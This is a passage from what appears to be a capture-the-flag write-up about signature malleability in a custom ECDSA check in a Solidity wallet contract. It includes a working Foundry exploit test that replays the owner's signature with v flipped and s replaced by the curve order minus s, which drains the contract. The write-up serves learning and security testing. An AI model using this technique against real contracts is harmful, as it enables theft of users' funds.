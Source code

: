 **Why is that specific check needed?** It's needed to prevent signature malleability! This mean that given a signature, you can slightly modify the value of `v` and `s` to generate an "inverted signature" that would be different but at the same time still valid.

Without that check, we can modify the signature used by the owner to perform the previous `withdraw`. The signature would be different, so the first check in the function would pass but will still be valid, returning the `owner` address when `ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature)` is performed in the second check.

## Solution code

Now what we have to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork to execute the test

Here's the code that I used for the test:

```solidity

function testCompleteLevel() public {
    address player = users[0];
    vm.startPrank(player);

    uint256 playerBalanceBefore = player.balance;
    uint256 walletBalanceBefore = address(level).balance;

    // Let's look at the `withdraw` transaction to gather the signature used by the owner of the contract
    // https://goerli.etherscan.io/tx/0x8ccffd2e4bbef4815ee6be1355d1545831257a12aae203bcff711a28bb8d3548
    bytes
        memory signature = hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c";

    // If we try to withdraw using the same signature the contract should revert
    vm.expectRevert(bytes("Signature already used!"));
    level.withdraw(signature);

    // Now we need to exploit the malleable signature exploit present in the custom ECDSA
    // Implementation inside the EtherWallet contract
    // Let's split the current signature to get back the tuple (uint8 v, bytes32 r, bytes32 s)
    (uint8 v, bytes32 r, bytes32 s) = deconstructSignature(signature);

    // Now we can calculate what should be the "inverted signature"
    bytes32 groupOrder = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
    bytes32 invertedS = bytes32(uint256(groupOrder) - uint256(s));
    uint8 invertedV = v == 27 ? 28 : 27;

    // After calculating which is the inverse `s` and `v` we just need to re-create the signature
    bytes memory invertedSignature = abi.encodePacked(r, invertedS, invertedV);

    // And use it to trigger again the withdraw
    // If everything works as expected we should have drained the contract from the 0.2 ETH in its balance
    level.withdraw(invertedSignature);

    vm.stopPrank();

    // Assert we were able to withdraw all the ETH
    assertEq(player.balance, playerBalanceBefore + walletBalanceBefore);
    assertEq(address(level).balance, 0 ether);
}
```